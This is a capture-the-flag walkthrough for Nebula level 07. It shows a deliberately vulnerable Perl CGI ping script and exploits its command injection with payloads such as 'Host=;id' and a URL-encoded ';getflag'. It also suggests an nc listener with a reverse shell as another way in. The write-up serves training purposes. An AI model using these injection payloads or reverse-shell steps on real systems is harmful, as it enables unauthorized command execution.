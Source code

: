 ```yaml
---
layout: default
title: "Nebula07"
tags: Nebula
description: "Exploiting a command injection in the Perl web server"
---
```



## Level 07

> The `flag07` user was writing their very first perl program that allowed them to ping hosts to see if they were reachable from the web server. To do this level, log in as the `level07` account with the password `level07`. Files for this level can be found in `/home/flag07`.

## Source code

```
#!/usr/bin/perl

use CGI qw{param};

print "Content-type: text/html\n\n";

sub ping {
  $host = $_[0];

  print("<html><head><title>Ping results</title></head><body><pre>");

  @output = `ping -c 3 $host 2>&1`;
  foreach $line (@output) { print "$line"; }

  print("</pre></body></html>");
  
}

# check if Host set. if not, display normal page, etc

ping(param("Host"));
```
## Getting the flag

This is a common codebase vulnerable to command injection. Calling a system function and translating user input as an argument without any sanitization generally is not so great idea. In a case like that and attacker could try to "pipe" the other commands to the execution with the `;` symbol.  The `;` is using to drop the argument and execute the next command right after it, something like `<command1>`;`<command2>`.  
Let's try to exploit this particular example!  
There are two files in the `flag07` directory:
```
level07@nebula:/home/flag07$ ls
index.cgi  thttpd.conf
```

The `index.cgi` is a program the with the source code we just reviewed. Let's try to execute it in a proper flow:

```
evel07@nebula:/home/flag07$ ./index.cgi Host=localhost
Content-type: text/html

<html><head><title>Ping results</title></head><body><pre>PING localhost (127.0.0.1) 56(84) bytes of data.
64 bytes from localhost (127.0.0.1): icmp_req=1 ttl=64 time=0.022 ms
64 bytes from localhost (127.0.0.1): icmp_req=2 ttl=64 time=0.043 ms
64 bytes from localhost (127.0.0.1): icmp_req=3 ttl=64 time=0.042 ms

--- localhost ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2002ms
rtt min/avg/max/mdev = 0.022/0.035/0.043/0.011 ms
```

And as we already feagured out the injection point, let's try it out too:

```
level07@nebula:/home/flag07$ ./index.cgi Host=;id
Content-type: text/html

<html><head><title>Ping results</title></head><body><pre>Usage: ping [-LRUbdfnqrvVaAD] [-c count] [-i interval] [-w deadline]
            [-p pattern] [-s packetsize] [-t ttl] [-I interface]
            [-M pmtudisc-hint] [-m mark] [-S sndbuf]
            [-T tstamp-options] [-Q tos] [hop1 ...] destination
</pre></body></html>uid=1008(level07) gid=1008(level07) groups=1008(level07)
```

So we have a command injection. We can't grab the flag from that point, as we will get the `getflag is executing on a non-flag account, this doesn't count` message. Instead, let's check the other file in the folder:
```
level07@nebula:/home/flag07$ cat thttpd.conf 
# /etc/thttpd/thttpd.conf: thttpd configuration file

# This file is for thttpd processes created by /etc/init.d/thttpd.
# Commentary is based closely on the thttpd(8) 2.25b manpage, by Jef Poskanzer.

# Specifies an alternate port number to listen on.
port=7007

# Specifies a directory to chdir() to at startup. This is merely a convenience -
# you could just as easily do a cd in the shell script that invokes the program.
dir=/home/flag07

# Do a chroot() at initialization time, restricting file access to the program's
# current directory. If chroot is the compiled-in default (not the case on
# Debian), then nochroot disables it. See thttpd(8) for details.
nochroot
#chroot

# Specifies a directory to chdir() to after chrooting. If you're not chrooting,
# you might as well do a single chdir() with the dir option. If you are
# chrooting, this lets you put the web files in a subdirectory of the chroot
# tree, instead of in the top level mixed in with the chroot files.
#data_dir=

# Don't do explicit symbolic link checking. Normally, thttpd explicitly expands
# any symbolic links in filenames, to check that the resulting path stays within
# the original document tree. If you want to turn off this check and save some
# CPU time, you can use the nosymlinks option, however this is not
# recommended. Note, though, that if you are using the chroot option, the
# symlink checking is unnecessary and is turned off, so the safe way to save
# those CPU cycles is to use chroot.
#symlinks
#nosymlinks

# Do el-cheapo virtual hosting. If vhost is the compiled-in default (not the
# case on Debian), then novhost disables it. See thttpd(8) for details.
#vhost
#novhost

# Use a global passwd file. This means that every file in the entire document
# tree is protected by the single .htpasswd file at the top of the tree.
# Otherwise the semantics of the .htpasswd file are the same. If this option is
# set but there is no .htpasswd file in the top-level directory, then thttpd
# proceeds as if the option was not set - first looking for a local .htpasswd
# file, and if that doesn't exist either then serving the file without any
# password. If globalpasswd is the compiled-in default (not the case on Debian),
# then noglobalpasswd disables it.
#globalpasswd
#noglobalpasswd

# Specifies what user to switch to after initialization when started as root.
user=flag07

# Specifies a wildcard pattern for CGI programs, for instance "**.cgi" or
# "/cgi-bin/*". See thttpd(8) for details.
cgipat=**.cgi

# Specifies a file of throttle settings. See thttpd(8) for details.
#throttles=/etc/thttpd/throttle.conf

# Specifies a hostname to bind to, for multihoming. The default is to bind to
# all hostnames supported on the local machine. See thttpd(8) for details.
#host=

# Specifies a file for logging. If no logfile option is specified, thttpd logs
# via syslog(). If logfile=/dev/null is specified, thttpd doesn't log at all.
#logfile=/var/log/thttpd.log

# Specifies a file to write the process-id to. If no file is specified, no
# process-id is written. You can use this file to send signals to thttpd. See
# thttpd(8) for details.
#pidfile=

# Specifies the character set to use with text MIME types.
#charset=iso-8859-1

# Specifies a P3P server privacy header to be returned with all responses. See
# http://www.w3.org/P3P/ for details. Thttpd doesn't do anything at all with the
# string except put it in the P3P: response header.
#p3p=

# Specifies the number of seconds to be used in a "Cache-Control: max-age"
# header to be returned with all responses. An equivalent "Expires" header is
# also generated. The default is no Cache-Control or Expires headers, which is
# just fine for most sites.
#max_age=
```

Noticed anything useful? Yes, the user `flag07` is running the webserver on the port `7007` with the same vulnerable binary.  
There are a few avenues to get the flag here:
- Open your browser with something like `http://<ip_of_the_vm>:7007/index.cgi?Host=%3Bgetflag` 
- `nc -nlvp 9001` listener on the `level07` machine, and any reverse shell send as a command to the webserver
- `wget` of the `getflag` with the  URL specified above

Note: The `%3B` is the URL-encoded `;` symbol
